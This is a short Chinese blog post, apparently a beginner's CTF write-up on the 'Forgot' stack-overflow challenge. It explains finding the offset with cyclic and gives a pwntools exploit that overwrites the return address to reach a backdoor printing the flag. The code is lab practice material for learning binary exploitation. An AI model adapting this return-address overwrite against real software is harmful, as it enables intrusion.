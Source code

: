 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      一道简单的栈溢出Forgot   # 标题
subtitle:                           #副标题
date:       2019-08-01              # 时间
author:     F0RG3T                  # 作者
header-img: img/post-bg-hacker.jpg  #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - Pwn
---
```


## 一道简单的栈溢出Forgot

2019.08.01 下午 5 点，一天烧脑的工作后，打开 ctf-wiki，开始二进制之路。

打开 ida，看到了 cat ./flag

![1](/img/pwn/2019-08-01/1.png)

根据以前对栈溢出的了解，存在字符串写入，修改函数返回地址于特定地址，完成 pwn  
遂开始了漫长的无头绪乱撞  

查阅了很多资料，甚至搜到了原题 wp，运用了 cyclic 技巧直接得到了偏移量...

![2](/img/pwn/2019-08-01/2.png)

编写 exp

```py
from pwn import *

p = process('forgot')

p.recv()
payload = 'A'*63 + p32(0x080486cc)

p.sendline(payload)
p.interactive()

```

得到结果

![3](/img/pwn/2019-08-01/3.png)


原理其实网上讲解很多了，我就说一下我的理解，该二进制文件所有都是在栈上进行。
在函数调用时首先将返回地址压栈，然后将参数压栈，之后 esp eip 改变，我们需要做的是讲 ret 返回地址覆盖成一个可控的地址。
该题给了后门，所以最重要的就是找偏移量，cyclic一把嗦。